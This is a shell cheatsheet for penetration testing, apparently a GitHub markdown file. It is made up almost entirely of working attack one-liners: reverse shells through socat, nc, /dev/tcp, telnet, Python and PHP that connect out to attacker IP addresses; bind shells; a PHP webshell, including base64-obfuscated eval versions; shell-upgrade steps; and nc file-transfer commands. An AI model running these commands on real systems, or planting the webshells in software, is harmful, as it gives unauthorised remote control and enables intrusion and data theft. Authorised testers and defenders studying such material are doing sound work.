 # Shell Cheatsheet

## Reverse Shell

### Socat

Listener:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Shell

```
nc -e /bin/sh 10.0.0.1 1234
```

When `-c` works:
```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

With `/dev/tcp`
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Using FIFO (Doesn't work with upgrading?)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Using `telnet` (When no `nc` and no `/dev/tcp` available). Listen with `nc -n -vv -l -p 2222`

```
rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Bind Shell

### Socat

Listener:
```
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

Victim:

```
socat FILE:`tty`,raw,echo=0 TCP:10.10.10.10:1337
```

### Bash

```
port=4444; if [$# -eq 1]; then port=$1; fi; while true; do nc -lp $port -e /bin/bash;wait; done
```

### Telnet

Lazy Bind Shell using `telnet`:

Listen with `nc -n -vv -l -p 2222` and don't forget the `&` at the end
```
while true; do sleep 5; rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe; done &
```


### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```

### PHP

Simple Test
```
<?php echo shell_exec("sleep 20") ; ?> 
```

Reverse shell using a socket (cmd version)
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Reverse shell using a socket (file version)
```
<?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

## Web Shell

### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Execute system command
```
<?php system(cmd);?>

<?php system("nc -e /bin/sh 10.0.0.1 1234");?>
```

## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading

### Socat

Check section above (`Reverse Shell.Socat`) using a static binary.

### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```

## Fix Width

On attacker host:
```
stty -a
```

In (`socat`) shell:
```
stty rows 57 cols 211
```

## Transferring files (e.g. socat or tsh)

### Attacker = Listener

Sender:
```
nc -vvlp 1337 < file
```

Receiver:
```
nc <IP> <PORT> > /tmp/yolofile
```

### Victim = Listener
Receiver:
```
nc -l -p 1234 > out.file
```

Sender:
```
nc -w 3 <IP> 1234 < out.file
```

## Aliases

```
alias "l"="ls -la" && \
alias ".."="cd .."
```

## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
